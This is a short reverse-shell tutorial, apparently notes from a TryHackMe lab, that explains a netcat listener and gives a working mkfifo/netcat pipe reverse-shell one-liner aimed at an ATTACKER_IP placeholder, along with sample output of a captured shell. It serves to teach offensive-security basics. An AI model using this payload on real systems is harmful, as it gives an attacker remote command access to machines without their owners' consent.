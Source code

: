 # Reverse Shell Overview

A reverse shell connects back to the attacker’s machine, allowing access to the target system while bypassing firewalls and security measures.

## Setting Up a Netcat Listener

**Command:** `nc -lvnp 443`

- `-l`: Listen for incoming connections.
- `-v`: Enable verbose mode.
- `-n`: Prevent DNS resolution, using only IP addresses.
- `-p`: Specify the port (e.g., 443) for listening.

## Gaining Reverse Shell Access

After setting the listener, the attacker executes a reverse shell payload on the compromised system. One example is the pipe reverse shell payload:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

### Payload Explanation:

- `rm -f /tmp/f`: Removes any existing named pipe at `/tmp/f`.
- `mkfifo /tmp/f`: Creates a new named pipe for communication.
- `cat /tmp/f`: Waits for input from the named pipe.
- `| sh -i 2>&1`: Pipes the input to an interactive shell, redirecting errors to standard output.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`: Sends the shell's output to the attacker's machine.
- `>/tmp/f`: Sends back command outputs to the named pipe for two-way communication.

## Attacker Receives the Shell

When the payload is executed, the attacker’s terminal shows a successful connection, allowing them to execute commands on the target system as if they were using a regular terminal.

### Example Output:

```ruby
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
target@tryhackme:~$
```